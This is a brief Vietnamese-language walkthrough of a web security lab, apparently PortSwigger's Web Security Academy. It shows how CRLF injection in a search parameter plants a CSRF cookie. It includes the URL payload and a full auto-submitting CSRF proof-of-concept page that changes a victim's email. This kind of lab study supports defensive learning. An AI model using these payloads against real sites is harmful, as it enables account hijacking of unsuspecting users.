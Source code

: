 => search term được reflect trong trường `Set-cookie` + không có `csrf` bảo vệ => có thể dùng để chèn cookie vào trình duyệt của nạn nhân

`/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`

Steps:

<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <form action="https://0a1b00a504484c4d8241bf8d00800087.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="winer&#46;khong&#64;lqd&#46;xn" />
      <input type="hidden" name="csrf" value="3mPPWvLMixEiC5e0RXEO4FMnZ2tkNDl3" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a1b00a504484c4d8241bf8d00800087.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=3mPPWvLMixEiC5e0RXEO4FMnZ2tkNDl3%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>

```

### ![image-20250602235825589](./image/image-20250602235825589.png)
